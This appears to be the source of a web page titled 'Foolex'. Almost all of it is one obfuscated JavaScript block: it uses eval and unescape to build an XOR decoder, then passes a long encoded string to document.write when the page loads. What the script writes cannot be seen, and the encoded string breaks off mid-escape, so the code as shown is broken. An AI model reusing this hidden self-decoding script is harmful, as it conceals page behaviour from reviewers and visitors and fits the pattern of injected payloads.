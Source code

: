 # Foolex

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%6d%62%32%34%36%37%62%37%34%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%31%31%31%33%35%36%32%39%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%37%30%33%32%30%35%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%31%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%6d%62%32%34%36%37%62%37%34%28%27') + '%3e%39%75%65%6d%17%73%63%71%71%6a%6e%68%39%21%32%24%29%2e%19%63%6d%61%6c%63%6d%68%61%3e%2f%46%5a%44%4f%48%25%1d%72%76%65%6a%61%69%6d%66%6b%63%3c%25%7a%64%77%23%39%3f%05%0f%33%74%72%66%1c%75%6c%6e%68%75%3e%28%61%7b%75%68%39%2d%2c%76%73%73%2a%74%3b%2b%66%77%61%2e%32%2d%2f%2a%2b%75%77%6f%27%17%71%6b%6b%6e%70%39%61%70%3b%23%6e%75%7b%69%3e%2e%2d%74%76%73%28%71%30%24%68%79%60%29%31%2c%2d%30%2b%72%6b%69%25%62%7d%62%6a%73%71%23%0c%0c%1a%18%75%65%6d%65%74%3e%77%68%6a%6d%6f%39%26%65%7a%75%67%3f%29%2e%75%74%76%28%73%35%2f%67%77%6e%28%37%38%3b%3a%2e%72%6e%6f%6f%63%27%17%67%67%72%67%4d%71%6b%60%6f%69%6d%3a%29%63%73%6b%68%23%1f%62%61%6f%64%6e%75%34%27%37%2f%2c%2d%24%24%1a%68%73%6d%74%6c%77%72%64%43%70%6f%61%67%74%53%69%75%60%68%3b%21%74%4e%68%68%5d%4b%6a%64%19%64%62%63%73%22%0e%09%1a%1a%72%66%78%74%60%68%6a%3c%22%32%2d%35%24%18%77%61%62%7e%47%69%77%3f%23%2f%1a%2a%18%33%26%29%27%19%36%2f%2c%2d%21%1a%73%6f%61%7a%61%34%27%37%2f%2c%2d%24%24%1a%69%6f%62%68%68%65%3b%21%71%62%78%42%6d%20%2a%28%3b%04%0f%18%1f%38%70%62%74%6d%68%71%16%75%70%69%63%3c%22%71%64%72%76%29%6b%69%73%68%74%65%71%6b%6d%73%24%38%0b%0b%16%19%17%19%3c%20%59%40%43%45%56%47%58%05%0f%17%19%18%1f%66%76%6d%67%76%6f%6c%64%19%7a%66%7f%47%6b%25%28%1a%7f%0b%0b%16%19%17%19%18%1f%1c%1d%1f%1a%1a%18%60%67%6b%7a%68%6c%64%2e%69%6e%63%22%26%65%6d%6d%63%68%18%76%6d%73%6b%66%24%2f%0e%00%19%17%19%18%1f%1c%1d%1f%79%09%0e%1d%16%19%17%5a%5b%3d%0f%0b%1f%1a%3e%29%70%6b%77%60%69%74%3d%0f%0b%0c%0c%1a%18%39%6a%62%6d%74%3a%0c%0a%1d%1f%1a%1a%3c%69%61%6b%6c%19%70%30%3f%23%30%2a%2a%28%23%16%71%39%3a%26%30%2c%2d%2f%24%1a%7f%32%35%27%3c%37%28%21%1c%7a%31%39%24%34%3a%26%27%17%6e%64%3c%22%71%68%67%6f%26%1d%7b%75%79%68%6d%64%3f%23%22%60%60%63%36%3d%29%29%19%75%73%72%6c%6a%61%29%71%6a%6a%75%6f%3a%26%34%22%1d%2e%38%09%0e%1d%16%19%17%3d%6c%68%6e%66%1f%72%35%3b%23%39%29%27%29%26%1f%74%33%3c%24%35%28%2d%26%27%17%7e%37%3c%22%36%31%2a%24%18%7a%38%3a%29%35%3f%2f%22%1d%68%66%39%26%71%6e%6e%6a%6c%2b%73%6b%60%6a%24%1a%75%71%78%68%62%62%3b%21%21%67%65%61%31%33%2d%28%19%7a%75%76%6e%69%66%2c%73%6d%64%71%6e%3a%29%36%28%21%1c%2c%3d%09%0c%18%1d%16%19%33%6a%67%71%69%66%71%1a%6d%64%3e%28%61%68%6b%64%2c%67%6f%63%24%1a%6b%62%78%6c%6c%77%51%68%60%71%67%39%24%31%32%28%19%64%66%76%6a%67%73%47%61%6d%61%65%7a%3a%29%31%28%21%1c%73%64%60%52%3b%23%39%27%17%77%63%65%5b%3e%21%35%31%26%1d%67%77%60%62%6a%73%3f%23%60%71%76%69%23%05%0f%17%19%18%1f%1c%1d%6c%65%74%6d%66%78%52%65%6e%74%72%3f%23%74%77%61%76%50%66%66%6a%62%49%6d%57%70%64%24%38%0b%0b%16%19%17%19%18%1f%38%6d%60%76%62%18%61%35%27%44%19%28%1f%2c%1d%4b%1a%33%28%1d%39%32%17%4d%18%2f%1c%30%2f%1a%7c%26%1d%6c%6e%63%6d%3b%21%21%67%65%61%31%33%2d%28%19%26%3b%0b%09%1c%1d%1f%1a%3e%29%6e%69%77%62%62%76%3d%0f%0b%1f%1a%3e%29%61%6d%63%7a%3b%0b%09%0f%0b%1f%1a%3e%61%3f%05%0f%17%19%18%1f%38%60%68%74%67%6c%66%16%6e%6b%3a%26%6e%77%71%64%74%29%76%6a%64%60%29%19%75%73%72%6c%6a%61%39%26%20%6d%62%6c%62%63%64%22%1d%72%76%74%69%68%6d%2a%7e%6e%64%73%64%3e%21%35%2a%26%1d%6c%6e%63%6d%3b%21%62%69%60%67%6f%26%1d%6b%71%34%27%37%2f%2c%2d%21%1a%67%7f%3e%28%36%27%29%28%21%1c%73%3c%24%30%30%2d%28%3b%33%28%65%68%72%60%6b%61%38%0b%0b%16%19%33%28%61%3d%0f%0b%0c%0c%1a%18%39%6f%3b%04%0f%18%1f%1c%1d%3b%67%6d%76%60%62%62%17%6e%64%3c%22%70%6f%6d%68%6a%66%78%27%17%64%70%3c%22%32%2f%2a%2a%26%1d%6b%7e%34%27%37%2f%2c%2d%21%1a%74%3b%23%3c%31%27%27%18%2e%3e%0e%09%1a%1a%3c%2c%6f%3b%04%0f%0b%09%1c%1d%3b%63%38%0b%0b%16%19%17%19%3c%62%6b%73%62%6e%61%18%6a%6a%3a%29%6a%63%73%63%69%2c%74%6d%6a%64%28%19%7a%75%76%6e%69%66%3c%24%27%63%66%6d%62%6c%62%26%1f%71%71%71%6b%6f%63%2e%7f%6e%6b%75%60%3c%22%33%2f%24%1a%62%6a%62%6d%34%27%66%6b%63%60%6a%24%1a%65%75%35%27%38%29%28%2f%22%1d%62%7d%39%26%32%26%29%27%27%18%71%3f%23%34%36%2a%26%3f%32%28%6a%6e%76%62%68%66%3d%09%0c%18%1d%32%28%6e%3b%0b%09%0f%0b%1f%1a%3e%74%66%7e%75%17%71%3b%21%33%2d%2f%2a%24%18%7a%35%27%38%29%28%2f%22%1d%63%7d%39%26%2e%3d%31%27%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%30%28%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%67%61%6d%63%3a%26%22%67%66%64%61%61%63%23%05%0f%17%19%18%1f%71%71%78%6e%61%3b%23%6c%68%65%75%3e%1f%33%2d%2f%6a%72%18%70%69%6b%7a%2a%75%64%72%6a%65%3f%1a%74%66%7e%75%24%66%6a%62%64%6c%71%3c%1a%6b%6a%6a%65%63%62%3d%21%3e%32%2f%3e%2b%74%66%7e%75%35%0a%0e%1f%1c%39%73%61%72%74%1d%7e%3a%29%36%28%2f%2c%23%1f%7d%39%26%32%26%29%27%27%18%63%7b%3e%21%29%31%30%2d%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%32%31%2a%1a%37%2d%26%29%17%36%28%2f%2c%2a%21%1a%60%6f%69%62%3a%29%24%63%64%67%66%64%61%24%0b%0b%16%19%17%19%75%73%7b%69%64%39%24%62%6c%64%75%31%19%37%2f%2c%6d%77%1a%77%67%6f%7b%2a%7a%62%76%68%66%38%1f%76%61%70%71%25%66%65%64%60%6e%72%3b%1f%69%6d%64%61%62%62%32%27%3a%31%2c%39%2e%76%61%70%71%34%0a%01%19%18%3b%70%66%77%76%1a%70%3e%28%36%27%29%28%21%1c%7a%3c%24%35%28%2d%26%27%17%65%7f%3c%22%2e%34%32%2a%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%30%34%2d%1f%35%2a%28%2d%16%36%27%29%28%28%22%1d%65%6d%6e%6c%3e%28%24%6c%62%63%64%67%66%21%09%0c%18%1d%16%19%7a%75%7f%6b%67%3e%21%60%6b%6a%71%30%19%38%29%28%6f%74%1d%72%65%68%75%2e%7b%62%79%6e%62%3a%1c%71%64%72%76%2b%62%64%64%6f%68%76%39%1c%6e%68%66%66%6c%66%33%27%35%34%28%3b%2d%71%64%72%76%3a%0e%00%19%17%3d%74%64%74%71%1f%72%39%26%32%26%29%27%27%18%78%3f%23%30%2a%2a%28%23%16%65%70%3a%26%2c%37%35%2f%24%1a%74%73%69%6b%7a%63%69%71%6f%3e%21%74%6b%74%62%7a%62%2f%37%34%2f%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%66%6a%6b%6e%39%26%20%6d%62%6c%62%63%64%22%0e%09%1a%1a%18%1d%7b%75%70%6d%63%3c%22%67%6e%68%76%3e%1d%39%29%27%69%70%1f%71%62%6d%77%29%75%66%78%6e%6d%3c%18%73%67%75%73%29%65%6a%60%6e%68%79%3f%18%6c%6b%61%63%6e%61%3d%23%34%35%27%3d%29%73%67%75%73%38%09%0e%1d%16%3d%7b%62%70%73%1c%75%3c%24%35%28%2d%26%27%17%7e%3b%21%33%2d%2f%2a%24%18%61%71%3a%29%2a%33%37%2c%23%1f%76%74%67%6f%7b%63%66%77%6b%3c%22%73%6e%76%65%74%66%2e%34%27%29%18%30%2c%2d%2f%1a%35%28%2d%26%2e%29%19%62%68%68%69%3c%24%27%63%66%6d%62%6c%62%26%0c%0a%1d%1f%1a%1a%75%71%71%6d%6c%3a%26%65%6d%6f%73%3c%1a%37%2d%26%69%7f%19%75%60%6e%70%2c%77%61%76%6a%6c%3c%17%75%63%77%70%2e%60%68%67%60%6c%78%3f%17%6a%6f%63%60%69%64%3f%24%3a%36%26%3d%26%75%63%77%70%3f%0c%0c%1a%18%39%62%6e%65%62%18%72%70%73%6e%6f%61%3b%23%2b%62%6c%62%63%64%67%23%1f%77%76%76%6c%63%62%24%70%6f%63%70%65%3c%24%36%28%23%16%71%38%3a%26%30%2c%2d%2f%24%1a%70%33%35%27%38%29%28%2f%22%1d%78%35%39%26%30%3b%29%29%19%7f%31%3f%23%33%36%2a%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%32%2c%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%32%6d%60%6b%63%1f%71%71%71%6b%6f%63%3e%28%24%6c%62%63%64%67%66%21%1a%77%74%73%67%6c%6c%2a%71%68%60%71%67%39%24%34%2d%28%19%7f%36%3b%21%33%2d%2f%2a%24%18%75%38%3a%29%36%28%2f%2c%23%1f%7d%35%3b%23%3b%34%27%27%18%78%32%3e%21%36%36%28%23%16%75%79%66%6a%72%66%6c%71%69%39%26%73%67%75%68%75%63%27%3b%2d%1f%35%2a%28%2d%16%36%27%29%28%28%22%1d%2e%38%09%0e%1d%16%3d%63%6e%6a%64%1c%70%73%74%6b%6d%66%35%27%2a%62%63%64%67%66%64%24%1a%75%71%78%68%62%62%2b%76%6b%61%73%62%39%26%31%26%27%17%71%37%3c%22%32%2f%2a%2a%26%1d%7e%37%34%27%37%2f%2c%2d%21%1a%7d%37%3e%28%34%3a%29%26%1f%7b%33%3c%24%36%34%2d%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%32%34%2a%1a%37%2d%26%29%17%36%28%2f%2c%2a%21%1a%2b%3a%0e%00%19%17%3d%6c%68%6e%66%1f%77%76%76%6c%63%62%34%27%25%64%67%66%64%61%61%26%1d%7b%75%79%68%6d%64%2f%74%68%66%76%60%3e%28%35%27%27%18%77%33%3e%21%35%2a%28%2d%28%19%7f%37%3b%21%33%2d%2f%2a%24%18%7a%39%3a%29%34%35%2f%22%1d%78%34%39%26%31%3a%29%29%19%74%71%63%6f%72%60%6b%76%6e%35%27%79%68%74%60%70%66%27%34%35%28%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%3b%68%6a%6d%61%1a%75%71%78%68%62%62%3b%21%21%66%64%61%61%63%66%28%19%7a%75%76%6e%69%66%2c%73%6d%64%71%6e%3a%29%35%28%21%1c%75%30%39%24%37%2d%26%29%29%19%70%31%3f%23%30%2a%2a%28%23%16%7e%38%3a%26%32%31%2d%21%1a%7d%36%3e%28%35%3b%29%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%36%34%26%19%38%29%28%2f%1c%32%2f%2a%2a%2f%23%16%28%35%0a%0e%1f%1c%39%6b%6d%68%63%1d%7b%75%79%68%6d%64%3f%23%22%61%61%63%66%6d%62%29%19%75%73%72%6c%6a%61%29%71%6a%6a%75%6f%3a%26%33%2c%23%1f%72%35%3b%23%39%29%27%29%26%1f%74%33%3c%24%35%28%2d%26%27%17%7e%37%3c%22%30%32%2a%24%18%7a%38%3a%29%35%34%2f%22%1d%73%74%65%6a%70%6c%68%79%6a%3b%21%72%6c%73%65%76%63%25%3b%34%27%19%37%2f%2c%2d%1f%35%2a%28%2d%21%27%17%28%3a%0c%0a%1d%1f%3e%6a%69%69%71%60%66%6b%18%6f%6d%6a%6d%76%77%3b%23%31%29%27%2d%35%32%2c%1d%30%35%2a%28%29%3b%34%27%19%37%2f%2c%2d%2b%36%36%28%23%16%63%60%6d%6c%3c%22%20%64%61%61%63%66%6d%27%17%28%3a%0c%0a%1d%1f%3e%6a%69%69%71%60%66%6b%18%6f%6d%6a%6d%76%77%3b%23%31%29%27%2d%35%32%2c%1d%30%35%2a%28%29%3b%34%27%19%37%2f%2c%2d%2b%36%36%28%23%16%63%60%6d%6c%3c%22%20%64%61%61%63%66%6d%27%17%28%3a%0c%0a%0e%09%1a%1a%3c%64%34%0a%01%19%18%1f%1c%39%62%6d%74%65%69%6d%19%60%65%3b%21%70%6a%62%6f%29%76%6a%64%60%29%19%75%73%72%6c%6a%61%39%26%20%6c%63%6c%32%33%2f%22%1d%72%76%74%69%68%6d%2a%7e%6e%64%73%64%3e%21%31%24%18%67%61%6d%63%3a%26%61%68%62%62%6f%24%18%60%7e%3a%29%36%28%2f%2c%23%1f%67%7d%3b%23%39%29%27%29%26%1f%72%3e%21%31%35%28%23%16%28%35%0a%0e%1f%1c%39%2e%63%38%0b%0b%05%0f%17%19%3c%66%1c%6a%63%39%24%74%6a%6b%6c%7a%27%3a%0c%0a%1d%1f%1a%1a%3c%76%7b%62%17%71%6c%68%6e%68%39%62%74%63%67%35%27%2a%75%60%68%61%68%2c%76%6d%65%68%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%2d%1f%35%2a%28%2d%16%36%27%29%28%28%22%1d%2e%38%09%0e%1d%16%19%17%3d%73%72%67%1d%77%6e%6d%6a%68%30%61%79%62%62%3c%22%20%73%6d%67%6d%23%16%75%79%66%6a%72%66%6c%71%69%39%26%73%67%75%68%75%63%27%36%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%68%67%6f%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%30%32%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%68%67%6f%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%30%34%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%68%67%6f%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%31%30%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%67%6d%67%6d%2e%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%35%2d%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%35%37%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%34%33%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%34%35%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%33%31%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%61%60%64%6d%2c%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%32%2f%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%32%35%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%31%31%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%31%37%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%30%33%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%65%68%67%6f%2b%71%61%64%62%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%3d%28%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%1f%1c%39%74%77%61%18%75%62%6e%65%6c%3e%67%72%66%65%39%24%25%71%61%64%62%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%3d%32%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%1f%1c%39%74%77%61%18%75%62%6e%65%6c%3e%67%72%66%65%39%24%25%71%61%64%62%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%35%28%33%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%37%2d%3e%19%38%29%28%2f%1c%32%2f%2a%2a%2f%23%16%28%35%0a%0e%1f%1c%1d%1f%3e%71%75%66%16%71%63%6e%6a%6a%3a%65%71%61%60%3b%23%2b%75%60%64%6d%21%1c%71%71%65%68%75%67%67%77%64%3a%26%71%6d%71%60%76%61%20%32%39%35%17%36%28%2f%2c%1d%30%2a%2a%28%2a%28%19%26%3b%0b%09%1c%1d%1f%1a%3e%73%70%6d%19%7f%6d%6f%6d%69%3b%67%74%61%62%3e%28%24%7b%61%6f%62%69%2e%73%6d%67%6d%23%16%75%79%66%6a%72%66%6c%71%69%39%26%73%67%75%68%75%63%27%33%33%2f%1a%35%28%2d%26%19%38%29%28%2f%2b%23%1f%2b%38%0b%0b%16%19%17%19%3c%74%71%66%1f%72%6e%6f%6f%63%3f%6f%77%63%65%3f%23%22%76%6d%65%68%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%32%31%30%1a%37%2d%26%29%17%36%28%2f%2c%2a%21%1a%2b%3a%0e%00%19%17%19%18%3b%77%70%64%1a%72%6c%6a%64%6c%31%61%76%64%66%3e%21%27%76%6f%60%63%27%17%75%76%60%6e%70%65%6b%74%6b%3e%28%77%66%75%67%73%67%25%30%37%34%18%32%26%29%27%19%37%2f%2c%2d%28%24%1a%29%3f%05%0f%17%19%18%1f%38%76%72%61%1a%70%69%61%6b%62%3f%60%71%67%67%3c%24%27%74%6a%6b%6c%29%19%74%71%63%6f%72%60%6b%76%6e%35%27%79%68%74%60%70%66%27%35%37%30%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%1f%1c%39%74%77%61%18%75%62%6e%65%6c%3e%67%72%66%65%39%24%25%71%61%64%62%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%35%34%31%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%61%60%64%6d%2c%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%37%34%2c%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%68%67%6f%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%30%37%37%1f%35%2a%28%2d%16%36%27%29%28%28%22%1d%2e%38%09%0e%1d%16%19%17%3d%73%72%67%1d%77%6e%6d%6a%68%30%61%79%62%62%3c%22%20%73%6d%67%6d%23%16%75%79%66%6a%72%66%6c%71%69%39%26%73%67%75%68%75%63%27%33%37%31%1a%35%28%2d%26%19%38%29%28%2f%2b%23%1f%2b%38%0b%0b%16%19%17%19%3c%74%71%66%1f%72%6e%6f%6f%63%3f%6f%77%63%65%3f%23%22%76%6d%65%68%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%32%35%32%1a%37%2d%26%29%17%36%28%2f%2c%2a%21%1a%2b%3a%0e%00%19%17%19%18%3b%77%70%64%1a%72%6c%6a%64%6c%31%61%76%64%66%3e%21%27%76%6f%60%63%27%17%75%76%60%6e%70%65%6b%74%6b%3e%28%77%66%75%67%73%67%25%30%33%36%18%32%26%29%27%19%37%2f%2c%2d%28%24%1a%29%3f%05%0f%17%19%18%1f%38%76%72%61%1a%70%69%61%6b%62%3f%60%71%67%67%3c%24%27%74%65%61%64%62%2a%74%68%61%68%21%1a%76%76%62%64%74%6d%68%76%6c%3f%23%71%6b%76%67%71%6d%21%38%31%28%1f%33%2d%2f%2a%1a%37%2d%26%29%20%27%18%2e%3e%0e%09%1a%1a%18%1d%32%72%7a%62%18%77%68%6a%6d%6f%3c%60%73%6d%63%34%27%25%73%6b%60%6a%24%1a%74%73%69%6b%7a%63%69%71%6f%3e%21%74%6b%74%62%7a%62%2f%36%30%35%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%37%38%32%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%68%67%6f%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%30%3b%35%1f%35%2a%28%2d%16%36%27%29%28%28%22%1d%2e%38%09%0e%1d%16%19%17%3d%73%72%67%1d%77%6e%6d%6a%68%30%61%79%62%62%3c%22%20%73%6d%67%6d%23%16%75%79%66%6a%72%66%6c%71%69%39%26%73%67%75%68%75%63%27%32%2d%33%1a%35%28%2d%26%19%38%29%28%2f%2b%23%1f%2b%38%0b%0b%16%19%17%19%3c%74%71%66%1f%72%6e%6f%6f%63%3f%6f%77%63%65%3f%23%22%76%62%6f%60%63%2a%7b%6e%65%6a%22%1d%73%74%65%6a%70%6c%68%79%6a%3b%21%72%6c%73%65%76%63%25%38%36%27%19%37%2f%2c%2d%1f%35%2a%28%2d%21%27%17%28%3a%0c%0a%1d%1f%1a%1a%3c%76%7b%62%17%71%6c%68%6e%68%39%62%74%63%67%35%27%2a%75%6f%62%69%23%1f%76%74%67%6f%7b%63%66%77%6b%3c%22%73%6e%76%65%74%66%2e%37%38%33%18%30%2c%2d%2f%1a%35%28%2d%26%2e%29%19%29%3d%0f%0b%1f%1a%1a%18%39%7d%74%6c%19%70%6b%6b%6f%6a%3c%62%76%66%6c%3a%29%24%74%68%61%68%21%1a%76%76%62%64%74%6d%68%76%6c%3f%23%71%6b%76%67%71%6d%21%39%37%36%1f%33%2d%2f%2a%1a%37%2d%26%29%20%27%18%2e%3e%0e%09%1a%1a%18%1d%32%72%7a%62%18%77%68%6a%6d%6f%3c%60%73%6d%63%34%27%25%73%6b%60%6a%24%1a%74%73%69%6b%7a%63%69%71%6f%3e%21%74%6b%74%62%7a%62%2f%37%36%37%1c%32%2f%2a%2a%18%32%26%29%27%2e%26%1f%2d%3f%0c%0c%1a%18%1d%16%3d%7c%74%63%1f%74%69%68%68%6f%3e%65%78%62%6d%3a%26%22%70%6a%62%6f%24%18%71%78%66%65%74%62%6e%72%6e%3c%24%74%69%71%69%75%6c%21%36%32%30%1d%30%2a%2a%28%1d%39%29%27%29%2f%21%1c%2c%3d%09%0c%18%1d%16%19%33%72%75%64%1c%75%6b%6d%68%6d%3b%6e%77%6c%63%3b%21%21%71%67%6d%67%6d%2e%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%36%31%26%19%38%29%28%2f%1c%32%2f%2a%2a%2f%23%16%28%35%0a%0e%1f%1c%1d%1f%3e%71%75%66%16%71%63%6e%6a%6a%3a%65%71%61%60%3b%23%2b%75%60%64%6d%21%1c%71%71%65%68%75%67%67%77%64%3a%26%71%6d%71%60%76%61%20%33%3a%33%17%36%28%2f%2c%1d%30%2a%2a%28%2a%28%19%26%3b%0b%09%1c%1d%1f%1a%3e%73%70%6d%19%7f%6d%6f%6d%69%3b%67%74%61%62%3e%28%24%7b%6e%65%6a%22%1d%73%74%65%6a%70%6c%68%79%6a%3b%21%72%6c%73%65%76%63%25%38%32%39%19%37%2f%2c%2d%1f%35%2a%28%2d%21%27%17%28%3a%0c%0a%1d%1f%1a%1a%3c%76%7b%62%17%71%6c%68%6e%68%39%62%74%63%67%35%27%2a%75%6f%62%69%23%1f%76%74%67%6f%7b%63%66%77%6b%3c%22%73%6e%76%65%74%66%2e%37%3c%31%18%30%2c%2d%2f%1a%35%28%2d%26%2e%29%19%29%3d%0f%0b%1f%1a%1a%18%39%7d%74%6c%19%70%6b%6b%6f%6a%3c%62%76%66%6c%3a%29%24%74%68%61%68%21%1a%76%76%62%64%74%6d%68%76%6c%3f%23%71%6b%76%67%71%6d%21%39%33%34%1f%33%2d%2f%2a%1a%37%2d%26%29%20%27%18%2e%3e%0e%09%1a%1a%18%1d%32%72%7a%62%18%77%68%6a%6d%6f%3c%60%73%6d%63%34%27%25%73%64%6a%62%6f%29%74%6a%6b%6c%29%19%74%71%63%6f%72%60%6b%76%6e%35%27%79%68%74%60%70%66%27%34%33%2